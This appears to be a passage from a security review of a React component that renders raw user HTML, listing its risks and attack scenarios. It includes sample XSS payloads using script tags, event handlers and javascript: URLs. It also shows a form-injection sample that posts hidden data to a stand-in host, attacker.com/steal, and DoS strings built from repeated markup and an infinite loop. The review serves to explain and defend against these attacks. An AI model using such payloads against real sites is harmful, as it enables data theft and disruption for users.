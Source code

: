 
### **2. Unsafe HTML Rendering**

#### **Risk Assessment:**
- **Severity**: HIGH
- **Impact**: Complete control over rendered content

#### **Dangerous HTML Elements:**
```html
<!-- Script execution -->
<script>alert('XSS')</script>

<!-- Event handlers -->
<img src="x" onerror="alert('XSS')">
<svg onload="alert('XSS')">

<!-- Iframe injection -->
<iframe src="javascript:alert('XSS')">

<!-- Form injection -->
<form action="https://attacker.com/steal" method="POST">
  <input type="hidden" name="data" value="sensitive">
</form>

<!-- Object/Embed injection -->
<object data="javascript:alert('XSS')">
<embed src="javascript:alert('XSS')">
```

---

### **3. Input Validation Issues**

#### **Problems:**
- **No Type Validation**: Accepts any data type
- **No Length Limits**: Potential DoS attacks
- **No Content Validation**: No filtering of malicious content
- **No Encoding**: Raw HTML injection possible

#### **Attack Scenarios:**
```javascript
// DoS Attack
<UnsafeUserDisplay html="<div>".repeat(1000000) + "</div>" />

// Memory Exhaustion
<UnsafeUserDisplay html="<div>".repeat(100000) + "A".repeat(1000000) + "</div>" />

// Infinite Loop
<UnsafeUserDisplay html="<div><script>while(true){}</script></div>" />
```

---
